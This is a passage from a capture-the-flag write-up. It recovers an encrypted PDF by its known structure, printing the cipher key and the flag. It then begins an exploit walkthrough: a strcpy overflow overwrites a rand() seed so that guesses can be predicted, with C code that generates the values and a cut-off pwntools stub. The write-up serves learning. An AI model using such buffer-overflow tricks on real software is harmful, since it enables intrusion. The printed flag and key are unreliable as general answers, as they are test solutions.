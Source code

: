 ```python
allchar = string.ascii_letters + string.punctuation + string.digits
password = ('').join((choice(allchar) for i in range(randint(60, 60))))
buf = caesar_cipher(buf, password)
f = open('./youfool!.exe', 'w')
buf = f.write(buf)
f.close()
```
we can see that flag is probably in a PDF form.
After some google searching, we found that PDF structure is quite variable, however most of the structure are of printable ascii and readable words, with help of [this website](https://web.archive.org/web/20141010035745/http://gnupdf.org/Introduction_to_PDF) and a PDF we generated for reference, we mainly work on the following structure.
1. PDF start with `%PDF-1.`
2. PDF end with `\n%%EOF\n`
3. structure of 
    ```
    n 0 obj
    ...
    endobj
    ```
    where `n` is an increasing integer
4. structure of
    ```
    stream
    ...
    endstream
    ```
With the 4 above structures, we finally recover the PDF step by step along with the key `:P-@uSL"Y1K$[X)fg[|".45Yq9i>eV)<0C:('q4nP[hGd/EeX+E7,2O"+:[2`

flag : `DCTF{d915b5e076215c3efb92e5844ac20d0620d19b15d427e207fae6a3b894f91333}`


## Exploit

### Lucky?
This chal provides us a program which first read your name and then ask you to guess 100 number generated by calling `rand()`. Since the user name is `strcpy` into a buffer, the seed fed into `srand` can be overwritten, thus the `rand()` become predictable.
I first use `lucky.c` generate 100 `rand()` output, then send it by `lucky.py`
```c
//lucky.c
#include <stdlib.h>
#include <stdio.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
int main(){
	srand(0x61616161);
	char buf[100];
	int fd = open("see", O_RDWR);
	int ret;
	for(int i = 0; i < 100; i++){
		ret = snprintf(buf, 99, "%d\n", rand());
		write(fd, buf, ret);
	}
	close(fd);
}
```
```python
# lucky.py
#!/usr/bin/python
from pwn import *

```